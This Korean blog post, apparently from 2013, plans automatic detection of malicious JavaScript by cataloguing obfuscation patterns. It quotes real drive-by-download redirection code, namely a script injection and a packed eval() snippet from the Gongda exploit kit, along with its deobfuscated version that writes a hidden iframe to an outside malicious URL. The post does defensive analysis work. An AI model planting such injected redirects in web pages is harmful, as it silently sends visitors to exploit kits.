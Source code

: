 ```yaml
---
layout: post
title: "JavaScript Obfuscation Patterns"
date: 2013-06-01 14:14
comments: true
categories: 
---
```


정리하는 목적은 Malicious JavaScript 을 자동으로 판정하기 위함.

그러기 위해서, 악성 자바스크립트에서 쓰는 syntax pattern 을 정리하고, 자동으로 패턴을 찾아내는 것을
만들려고 함.

지금 생각하는 수순은

1. 단순한 regexp 스트링 매칭
2. HTML Parsing 
3. JavaScript Parsing -> Abstract Syntax Tree 를 빌드해서, visit 하면서, 패턴을 분석
4. JavaScript Runtime 을 돌려서 동적으로 생성되는 Symbol table 이나 
Assignment , String mainpulation 을 분석

그리고 Drive-by-download 공격의 redirection 의 단계마다 JavaScript Obfuscation 의 패턴이 조금씩 달라지기 때문에. 
이 점도 고려할 필요가 있음.

1. 랜딩페이지에는 주로 다음 단계로 redirection 하는 코드들이 들어있다. 

중국의 Hidden Lynx 가 수행했다고 의심되는 작전에서 사용된 redirection code

    document.write('<script 
    src="http://www.*******curling.com/Docs/BW06/iframe.js"></script>');

Gongda pack 으로 traffic 을 돌리기 위해 사용된 redirection code

    eval(function(p,a,c,k,e,d){e=function(c){return c.toString(36)};
    if(!''.replace(/^/,String)){while(c--){d[c.toString(a)]=k[c]||c.toString(a)}k=[function(e){return d[e]}];
    e=function(){return'\\w+'};c=1};while(c--){if(k[c]){p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c])}}
    return p}('d(3.7.c(\'4=\')==-1){e 2=f h();2.g(2.i()+b*5*5*8);3.7=\'4=9;a=/;2=\'+2.j();
    3.p("<6 s=r://u.w/v/t/q/l.k m=n o=0></6>")}',33,33,
    '||expires|document|hsblm|60|iframe|cookie|1000|Yes|path|12|indexOf|if|var|new|setTime|Date|getTime|
    toGMTString|html|ye|width|100|height|write|pop|http|src|goods|dangguro|upload|com'.split('|'),0,{}))

난독화를 해제하면,

    if (document.cookie.indexOf('hsblm=') == -1) {
        var expires = new Date();
        expires.setTime(expires.getTime() + 12 * 60 * 60 * 1000);
        document.cookie = 'hsblm=Yes;path=/;expires=' + expires.toGMTString();
        document.write("<iframe src=http://dangguro.com/upload/goods/pop/ye.html width=100 height=0></iframe>")
    }

